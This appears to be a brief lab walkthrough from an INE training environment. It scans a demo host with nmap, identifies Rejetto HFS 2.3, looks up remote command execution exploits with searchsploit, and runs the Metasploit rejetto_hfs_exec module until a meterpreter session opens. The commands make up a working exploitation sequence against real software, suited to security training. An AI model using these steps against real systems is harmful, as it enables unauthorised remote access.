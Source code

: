`nmap -F demo.ine.local -sV`
`nmap --top-ports 65536 demo.ine.local` (ไวกว่า)
`nmap -sV -p 80 demo.ine.local`
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows



`searchsploit hfs`
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                                                           | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                                           | windows/remote/39161.py



`msfconsole`
`msf6 > search reje`
exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

`msf6 > use exploit/windows/http/rejetto_hfs_exec `
`set RHOSTS demo.ine.local`

`show options`
`exploit`
meterpreter > 

